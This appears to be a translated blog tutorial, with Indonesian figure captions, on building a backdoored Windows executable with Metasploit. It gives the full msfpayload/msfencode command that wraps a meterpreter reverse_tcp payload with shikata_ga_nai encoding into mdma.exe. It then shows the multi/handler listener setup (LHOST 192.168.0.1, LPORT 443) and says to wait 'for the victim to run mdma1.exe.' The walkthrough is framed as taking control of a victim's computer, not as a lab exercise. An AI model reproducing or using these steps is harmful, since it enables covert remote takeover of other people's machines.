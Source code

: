 
Look at the IP address on the network device you want to connect to with the command "ifconfig". Here the IP address is 192.168.0.1.

![Gambar 3.4 Melihat IP address perangkat jaringan.jpeg](https://images.hive.blog/DQmfGeoieKw3ak2gS7YTRY4m4y4Z4iusS1RBaVC5VX4vNy9/Gambar%203.4%20Melihat%20IP%20address%20perangkat%20jaringan.jpeg)

Figure 3.4 Viewing the IP address of a network device



Here the file that will be attached to the payload is mdma.exe which is attached to /root. Then the command is "msfpayload windows/meterpreter/reverse_tcp LHOST = 192.168.0.1 LPORT = 443 R | msfencode -e x86 / shikata_ga_nai -c 5 -t exe -x /root/mdma.exe -k -o /root/mdma1.exe”. LHOST is a listening host, namely the IP address on this network device. LPORT is a listening port depending on your taste. Thanks to msfencode and shikata_ga_nai trojan attachments are possible. -e specifies the format that is x86, -c specifies the number of iterations, -t selects the file extension, -x specifies the file location, -k is for the payload to work on another task with the original program still running, and -o is a place and name new files.

![Gambar 3.5 Membuat backdoor.jpeg](https://images.hive.blog/DQmfGVQeh1iqtFHoxBpFxDaV3o7cGGa8ytwLWauHcBPDEHz/Gambar%203.5%20Membuat%20backdoor.jpeg)

Figure 3.5 Creating a backdoor



Set up msfconsole to control victim's computer. Type "-help" if you are not familiar with commands. There is a command facility "search [any word]" to view commands related to what was typed.

![Gambar 3.6 Msfconsole.jpeg](https://images.hive.blog/DQmYWsyKDhiQhURpB3JYMzsYStxwmZ5CyG1B7j7PRdiH7we/Gambar%203.6%20Msfconsole.jpeg)

Figure 3.6 Msfconsole



Type the command "use exploit /multi/handler" (which is used for the backdoor). Next, type the command "set payload windows/meterpreter/reverse_tcp" (the payload used).

![Gambar 3.7 Menggunakan exploitmultihandler.jpeg](https://images.hive.blog/DQmQFXSsNf2h1hdgCV5i2nKvJ52F8vcGfoZbkCrLuQ7wZvS/Gambar%203.7%20Menggunakan%20exploitmultihandler.jpeg)

Figure 3.7 Using the exploit/multi/handler

![Gambar 3.8 Menggunakan windowsmeterpreterreverse_tcp.jpeg](https://images.hive.blog/DQmT6cMgKLHfBm1mBUbKaBoRbnM8UfZMjihPsFWrVajaiXZ/Gambar%203.8%20Menggunakan%20windowsmeterpreterreverse_tcp.jpeg)

Figure 3.8 Using windows/meterpreter/reverse_tcp



Continue with the command "set lhost 192.168.0.1" (listening host), then "set lport 443" (listening port), type "show options" to see the settings.

![Gambar 3.9 Mengatur option.jpeg](https://images.hive.blog/DQmVtJkZirgvdfLPYmDXFw8uRUC7N56ts8YApZzCYQHTzmp/Gambar%203.9%20Mengatur%20option.jpeg)

Figure 3.9 Setting options



The last command is "exploit", just waiting for the victim to run mdma1.exe.

![Gambar 3.10 Perintah exploit.jpeg](https://images.hive.blog/DQmbvh2rcY9UpkT4DEWckH586dCV5s6sqxCahsVg6oJSJeZ/Gambar%203.10%20Perintah%20exploit.jpeg)
